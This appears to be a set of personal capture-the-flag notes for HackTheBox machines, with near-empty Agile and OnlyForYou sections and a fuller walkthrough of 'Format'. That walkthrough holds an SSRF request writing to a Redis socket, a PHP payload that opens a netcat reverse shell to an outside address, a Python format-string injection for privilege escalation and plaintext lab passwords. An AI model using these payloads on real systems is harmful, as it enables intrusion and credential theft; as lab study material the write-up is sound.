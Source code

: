 ## Agile
### Reco
### Weaponisation
### Exploitation
### User flag
### Root flag
![](https://hackmd.io/_uploads/H1N6hTich.png)

## OnlyForYou
> To obtain access we must read various files on the web using an LFI to find a vulnerability in the form. Using the form we can run CERs. To move to a user we must perform a Cypher Injection on an internal website to get the password. And for the escalation of privileges we must modify a file, create a tar.gz and upload it to the Gogs web intera and then download the file using pip3 and thus be able to modify the bash to SUID permissions.
### Reco
1. nmap 10.10.11.210 -sVC
2. dir busting
    - there is a subdomain
    ![](https://hackmd.io/_uploads/rytoaqich.png)
    - add it also to the /etc/hosts

### Weaponisation
1. beta subdomain
    - allows us to download source code
        ![](https://hackmd.io/_uploads/BklH0qoqh.png)
        - When analyzing it we realize that in the / download path if in the parameter image start with 2 points then launch a message that says Hacking detected and makes us a redirect to / list.
            ![](https://hackmd.io/_uploads/HkT9C5iq3.png)
### Exploitation
1. BurpSuite - LFI
    - 
### User flag
### Root flag

## Format
### Reco
1. nmap: `nmap -sVC 10.10.11.213`
    - 22 SSH
    - 80,3000 HTTP
2. add microblog.htb:3000 to /etc/hosts
3. FUZZING - subdomain enumeration
    - app, sunny
        - add these both to /etc/hosts also
4. Website
    - "Contribute here!" in footer -> source code of app.microblog.htb
### Weaponisation
1. LFI
    - we can use ID parameter for LFI
        - create a blog -> edit blog
            - capture req to add the H1/text
                - we can edit the ID paramater for LFI
                    ![](https://hackmd.io/_uploads/SkOVqn0q2.png)
### Exploitation
1. PRO account
    - dashboard page and source code -> something about PRO 
    - assign pro to our session using SSRF
> curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:testy%20pro%20true%20a/b

- insert the username of registration
2. Uploading reverse shell
    - use this to get RS on target machine + change your blog name
> id=/var/www/microblog/<your_blog_name>/uploads/rev.php&header=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.30+443+>/tmp/f")%3b%3f>
![](https://hackmd.io/_uploads/rJj-j309h.png)

- after visiting the /uploads/rev.php we will get our RS
### User flag
1. Connect to Redis-cli
    - socks config file
        - redis-cli -s /var/run/redis/redis.sock
        - keys *
            ![](https://hackmd.io/_uploads/SyLwo205h.png)
        - hgetall cooper.dooper
            - `cooper:zooperdoopercooper`
2. SSH connect to obtain user flag
### Root flag
1. trying `sudo -l`
    - we can run /usr/bin/licence
        - this file is also readable
            - [Python format function vuln](https://web.archive.org/web/20230624063634/https://podalirius.net/en/articles/python-format-string-vulnerabilities/)
2. Vuln
    - register a user using redis-cli and use the vuln in username to print all variables
        - `HSET test2 username test1 password test first-name` 
        - `{license.__init__.__globals__} last-name test pro false`
            ![](https://hackmd.io/_uploads/S1LOThRq3.png)
    - run /usr/bin/licence as sudo to provision the licence of our "test2" user
        - `sudo /usr/bin/license -p test2`
            ![](https://hackmd.io/_uploads/Hy_na3Rc2.png)
            - we obtained SSH credentials for root
                - `root:unCR4ckaBL3Pa$$w0rd`
3. SSH login as a root to obtain root flag






